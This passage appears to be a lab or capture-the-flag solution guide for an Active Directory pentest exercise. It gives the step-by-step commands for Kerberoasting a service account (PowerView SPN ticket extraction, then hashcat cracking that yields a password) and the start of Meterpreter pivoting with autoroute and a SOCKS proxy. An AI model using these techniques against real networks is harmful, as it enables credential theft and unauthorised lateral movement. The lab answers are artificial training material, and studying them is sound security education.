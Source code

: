 ### **📋 Solution Steps:**

#### **Step 1: Extract Kerberos Hash**
```powershell
# In PowerShell session:
Get-DomainUser -identity svc_sql | get-domainspnticket -format hashcat

# Extract the hash from output (long $krb5tgs$23$ string)
```

#### **Step 2: Format Hash for Cracking**
```bash
# Remove whitespace and save to file:
echo '$krb5tgs$23$*svc_sql$INLANEFREIGHT.LOCAL$MSSQLSvc/SQL01.inlanefreight.local:1433*$[HASH_DATA]' | tr -d "[:space:]" > tgs_file
```

#### **Step 3: Crack with Hashcat**
```bash
# Crack TGS hash:
hashcat -m 13100 tgs_file /usr/share/wordlists/rockyou.txt

# Result: svc_sql:lucky7
```

**🎯 Answer**: `lucky7`

---

## 🌐 **Question 4: Lateral Movement**

### **🎯 Task**: "Submit the contents of the flag.txt file on the Administrator desktop on MS01"

### **📋 Solution Steps:**

#### **Step 1: Setup Pivoting Infrastructure**
```bash
# In meterpreter session:
run autoroute -s 172.16.6.0/24
background

# Setup SOCKS proxy:
use auxiliary/server/socks_proxy
set VERSION 4a  # or 5 depending on config
set SRVPORT 1080
run -j

# Verify proxy is running:
jobs
```
